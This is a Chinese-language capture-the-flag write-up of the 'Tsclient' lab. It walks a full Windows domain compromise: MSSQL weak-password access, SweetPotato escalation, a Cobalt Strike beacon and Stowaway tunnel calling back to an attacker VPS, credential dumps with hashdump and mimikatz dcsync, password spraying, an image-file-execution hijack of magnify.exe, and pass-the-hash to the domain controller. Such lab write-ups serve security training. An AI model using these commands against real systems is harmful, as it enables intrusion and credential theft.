







Tsclient
外网
mssql弱口令（MDUT执行命令）
fscan扫出一个mssql弱口令

MDUT连接一下（下载地址：MDUT-Extend(扩展版本)Multiple Database Utilization Tools Extend - 🔰雨苁ℒ🔰）

激活组件后就可以执行命令

SweetPotato提权
权限较低，上传文件SweetPotato.exe去提权
1
|
C:/Users/Public/Sweetpotato.exe -a whoami
|
1
|
C:/Users/Public/Sweetpotato.exe -a "type C:\Users\Administrator\flag\flag01.txt"
|
上线cs
参考：CobaltStrike4.8汉化版带插件-CSDN博客
服务端运行起来
1
|
./teamserver 101.200.39.193 111111
|

本地电脑使用客户端连接一下（要关vpn），主要输入HOST、Port、password即可，然后开始上线

新建一个监听, 然后以这个监听生成一个🐎，然后上传CS的🐎, 把CS给上线, 用提权的命令执行, 这样上线后的CS也是system权限了。
这里监听端口注意是vps空闲且开了安全组的端口



将生成的马上传,然后用土豆提权运行，得到的是system权限
1
|
C:/Users/Public/Sweetpotato.exe -a "C:/Users/Public/cs.exe"
|
上线成功

查看一一下用户

直接hashdump , 抓一下密码hash值, 毕竟现在是system的账户权限

1
2
3
4
|
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2caf35bb4c5059a3d50599844e2b9b1f:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John:1008:aad3b435b51404eeaad3b435b51404ee:eec9381b043f098b011be51622282027:::
|
但是cs好像可以直接看

CS注入在线用户进程上线
查看一下在线用户 , 可以发现有john的用户在线, 那么可以用CS直接注入进程上线

查看进程列表, 选择john用户的进程进行注入

随便选择一个john的进程进行inject就行了

发现成功上线

用John查看共享资源

查看一下共享的文件里面的内容
1
2
|
shell dir \\TSCLIENT\C
shell type \\TSCLIENT\C\credential.txt
|


可以找到一个域用户的用户名和密码 , 并且提示了镜像劫持
1
|
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#
|
内网
Stowaway搭建代理
vps运行
1
|
./linux_x64_admin -l 12345 -s 123456
|
靶机运行
1
|
shell C:/Users/Public/win_agent.exe -c 101.200.39.193:12345 -s 123456 --reconnect 8
|
隧道搭建成功

在vps上依次执行
内网访问，验证一下，嗯嗯没错了

密码喷洒攻击
1
2
|
用少数的用户名和密码一个一个的碰撞, 看看是否能够登录到某个主机
(就是已知某个用户名和密码(或者尝试使用弱口令), 但不知道是有哪个主机可以登录, 所以一个一个尝试)
|
前面已经知道了一个用户名和密码
1
2
3
|
proxychains4 -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
#1. -q : 表示安静模式, 即减少输出信息，只显示必要的执行结果，避免冗长的日志。
|

分别是DC01，WIN2016，WIN19-CLIENT三台主机显示密码已过期，但是没事可以改
impacket-changepasswd修改密码
用impacket-changepasswd修改密码，经过尝试发现只有172.22.8.46修改密码后可以登入成功
1
|
proxychains4 impacket-changepasswd 'xiaorang.lab/Aldrich:Ald@rLMWuy7Z!#@172.22.8.46' -newpass 'Whoami@666'
|
1
|
proxychains rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab -p 'Whoami@666'
|

映像劫持提权-放大镜提权
无权限读取文件，需要映像劫持提权，简单的说，就是通过修改指定注册表项实现程序的劫持，即运行指定程序实际上运行的是我们自己的后门程序
映像劫持的几种利用方式 - FreeBuf网络安全行业门户
1
|
原理：一个程序要被运行时，会先检查注册表，如果有指定程序并且开启了debugger，那么会优先执行debugger指定的程序，这样也就造成了映像劫持。
|
先看一下注册表权限
1
|
Get-Acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
|
1
2
3
4
5
|
命令解释:
1. get-acl 是 PowerShell 中的一个 cmdlet，用于检索文件、文件夹或注册表键的访问控制列表（ACL）。
ACL 包含权限信息，例如哪些用户或组可以访问该路径，以及他们的权限类型（读取、写入、完全控制等）。
2. -path : 指定要检查的对象路径
3. **fl *** : 是 Format-List 的别名，用于将对象的属性以列表形式显示, *表示通配符, 显示对象的所有属性
|

重点关注这个
1
2
3
4
5
6
|
AccessToString : CREATOR OWNER Allow FullControl
NT AUTHORITY\Authenticated Users Allow SetValue, CreateSubKey, ReadKey
NT AUTHORITY\SYSTEM Allow FullControl
BUILTIN\Administrators Allow FullControl
BUILTIN\Users Allow ReadKey
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow ReadKey
|
所有正常登录的用户都可以修改注册表，利用这个性质，修改注册表映像劫持，这里我使用放大镜进行提权，其实也就是把magnify.exe替换成C:\windows\system32\cmd.exe，这样就直接提权成system了
1
|
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
|
命令解释:
1. REG ADD: 这是一个 Windows 命令行工具，用于向注册表添加新的键或值
2. "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe":
○ 指定注册表路径：
这个注册表路径是 Windows 用于调试或拦截程序执行的机制。通过设置 Debugger 值，可以让指定的程序在启动时被替换为另一个程序。
在这里，magnify.exe 被“劫持”，启动时会被替换为 cmd.exe
■ HKLM 是 HKEY_LOCAL_MACHINE 的缩写，表示本地计算机的注册表根键的驱动器形式。
■ SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options 是一个特殊的注册表位置，用于配置可执行文件的执行选项。
■ magnify.exe 是 Windows 自带的“放大镜”工具（Magnifier），位于 C:\Windows\System32 目录下。
3. /v Debugger:
○ /v 表示要添加或修改的注册表值的名称。
○ Debugger 是一个特定的值名，在 Image File Execution Options 下，用于指定当目标程序（这里是 magnify.exe）启动时，代替它运行的调试器程序。
4. /t REG_SZ:
○ /t 指定值的类型。
○ REG_SZ 表示这是一个字符串类型的值（即文本数据）。
5. /d "C:\windows\system32\cmd.exe":
○ /d 指定要写入的具体数据。
○ "C:\windows\system32\cmd.exe" 是 Windows 的命令提示符程序路径。
|
点左下角的头像, 再点击锁定锁定用户，再在右下角的放大镜打开就是system的cmd了

拿到第二个flag
1
|
type C:\Users\Administrator\flag\flag02.txt
|

不出网转发上线CS
win是不出网的，需要用172.22.8.18转发cs上线


然后怎么将文件弄到远程桌面？用kali的共享目录,这样我们只需将文件放到/mnt/xpw/kali_shard就可映射到靶机了
1
2
3
4
5
|
proxychains4 rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab -p 'Whoami@666' -r disk:share=/mnt/xpw/kali_shard
# -r：rdesktop 的选项，用于启用资源重定向（resource redirection）
# disk:share=/mnt/xpw/kali_shard
# 表示将本地目录 /mnt/xpw/kali_shard 映射到远程桌面会话中，作为一个共享磁盘，名称为 share
|
注意要用管理员打开这个kali_shard目录才行，不然远程桌面运行不了cs马

运行后成功上线

进行信息搜集一波

1
|
shell net group "domain admins" /domain
|

1
|
WIN2016$ 在域管组里，账号恰好是域里的“皇帝”（域管），那就可以打域控了
|
mimikatz进行hash传递攻击
发现win2016$在域管组里，即机器账户可以Hash传递登录域控，所以相当于直接拿域控了。
利用mimikatz进行hash传递攻击，先上传mimikatz.exe，然后依旧用防大镜提权那打
1
|
C:\\Users\\Aldrich\\Desktop\\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
|
意思是命令目标机器运行桌面上上传好的 Mimikatz 程序，尝试提升权限并抓取内存中的明文密码和哈希，抓完后立即自动退出程序
但是这样麻烦，因为在远程桌面命令行不能复制，所以要手敲，麻烦，直接用镜像劫持的方法在system权限的cmd窗口上线CS, 这样上线的CS也是system权限
1
|
\\tsclient\share\tsc.exe
|

有了system的权限就可以抓取hash, 然后打hash传递拿域控主机的权限了
1
|
shell C:\\Users\\Aldrich\\Desktop\\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
|

1
|
4ba974f170ab0fe1a8a1eb0ed8f6fe1a
|
然后进行哈希传递
1
|
proxychains4 crackmapexec smb 172.22.8.15 -u WIN2016$ -H 4ba974f170ab0fe1a8a1eb0ed8f6fe1a -d xiaorang -x "type C:\Users\Administrator\flag\flag03.txt"
|
发现不行？？？咋别人行？

那就从域控制器中 dump 出所有账户的凭据信息
1
|
shell C:\\Users\\Aldrich\\Desktop\\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
|
1
|
proxychains4 crackmapexec smb 172.22.8.15 -u administrator -H 2c9d81bdcf3ec8b1def10328a7cc2f08 -d xiaorang.lab -x "type C:\Users\Administrator\flag\flag03.txt"
|

春秋云镜 Tsclient
(´∇｀)你回来啦~